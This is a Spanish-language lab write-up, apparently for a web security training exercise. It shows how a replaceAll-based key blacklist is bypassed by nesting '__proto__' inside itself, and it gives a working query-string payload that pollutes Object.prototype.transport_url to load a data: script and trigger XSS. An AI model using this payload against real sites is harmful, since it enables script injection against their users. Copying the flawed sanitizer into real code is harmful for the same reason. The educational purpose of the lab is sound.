




## LAB



En el sitio web encontramos un codigo js:

```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}

window.addEventListener("load", searchLogger);
```

En este código hay una función `sanitizeKey` que intenta bloquear las claves peligrosas:

```js
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

Este bloquea `__proto__`, `constructor` y `prototype`. Parece sólido... pero tiene un fallo clásico.

#### El bypass

`replaceAll` elimina la palabra una sola vez  no es recursivo. Entonces se anidá la palabra dentro de sí misma:

```js
__pro__proto__to__
```

`replaceAll` encuentra `__proto__` en el medio, lo elimina, y queda:

```js
__proto__
```

El bypass completo sería:

```js
/?__pro__proto__to__[transport_url]=data:,alert(1)
```

`sanitizeKey` procesa la clave:

```js
__pro__proto__to__  →  elimina __proto__  →  __proto__  ✓
````



Y contamina:

```js
Object.prototype.transport_url = "data:,alert(1)"
```

#### Flujo completo

```js
/?__pro__proto__to__[transport_url]=data:,alert(1)
            ↓
sanitizeKey elimina __proto__ del medio
            ↓
queda __proto__[transport_url]
            ↓
deparam contamina Object.prototype.transport_url
            ↓
config.transport_url no existe → sube al proto → "data:,alert(1)"
            ↓
script.src = "data:,alert(1)" → XSS ✓
````

La blacklist basado en `replaceAll` nunca es suficiente si no se valida de forma recursiva o usás un whitelist, siempre hay un bypass.



